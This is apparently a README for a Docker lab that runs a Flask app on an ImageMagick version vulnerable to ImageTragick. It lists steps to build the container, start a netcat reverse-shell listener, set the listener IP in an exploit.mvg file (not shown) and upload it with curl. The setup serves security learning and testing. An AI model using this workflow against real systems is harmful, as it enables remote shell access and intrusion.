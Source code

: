 # docker-imagetragick

Run a containerised Flask app that relies on a version of ImageMagic that is vulnerable to the ImageTragick bug.

## Steps

1. Build a docker image:

        $ docker build -t imagetragick .

2. Create a docker container:

        $ docker run -d --name imagetragick -p 127.0.0.1:8080:8080 imagetragick

3. Listen for the reverse shell:

        $ nc -l -n -vvv -p 4443

4. Edit the contents of `exploit.mvg` so that is uses the correct IP address that `nc` is listening on.

5. Upload exploit to vulnerable application:

        $ curl -v -F file=@exploit.mvg http://127.0.0.1:8080

## Links

https://imagetragick.com/
